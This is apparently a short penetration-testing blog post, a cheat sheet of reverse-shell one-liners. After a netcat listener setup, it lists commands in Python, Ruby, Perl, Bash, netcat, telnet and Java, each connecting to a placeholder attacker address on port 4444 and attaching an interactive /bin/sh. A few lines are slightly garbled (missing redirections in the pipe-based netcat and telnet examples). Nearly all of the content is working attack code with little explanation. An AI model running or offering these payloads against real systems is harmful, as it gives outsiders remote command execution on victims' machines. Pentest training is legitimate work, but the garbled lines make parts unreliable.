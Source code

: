 +++
title = "Reverse Shells"
description = "Simple Reverse Shells"
tags = [ "Reverse", "Shells", "Pentest", "Easy" ]
date = "2017-06-16"
location = "127.0.0.1"
categories = ["Pentest","Tutorials"]
slug = "Pentesting-Reverse-Shells"
type = "post"
+++

Step one - Setup your Listener on attacking machine.

```
nc -lvp <Port>

#Example

nc -lvp 4444
```

You can then use netcat to connect to that listener or a different reverse shell from the Target.


```
nc <attacker_ip> <port>
 
#Example:

nc -l -v 192.168.225.143 4444
```

Here is a listener setup with NETCAT but the reverse shell is PERL.


 ![NCL1](/img/ReverseShells/Netcat-basics-Reverse-shell-perl.jpg)


PYTHON Reverse Shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


RUBY Reverse Shell

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKER-IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

PERL Reverse Shell

```
perl -e 'use socket;$i="192.168.0.100";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.100:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

PERL - Windows based Systems

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.0.100:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```


BASH


```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/4444; sh <&196 >&196 2>&196


exec 5<>/dev/tcp/ATTACKING-IP/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  


bash -i >& /dev/tcp/ATTACKING-IP/4444 0>&1
```

NETCAT

```
nc -e /bin/sh ATTACKING-IP 4444


/bin/sh | nc ATTACKING-IP 4444


rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

TELNET

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 4444 0/tmp/p


telnet ATTACKING-IP 4444 | /bin/bash | telnet ATTACKING-IP 443
```


JAVA

```
 r = Runtime.getRuntime()
 p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
 p.waitFor()
 ```


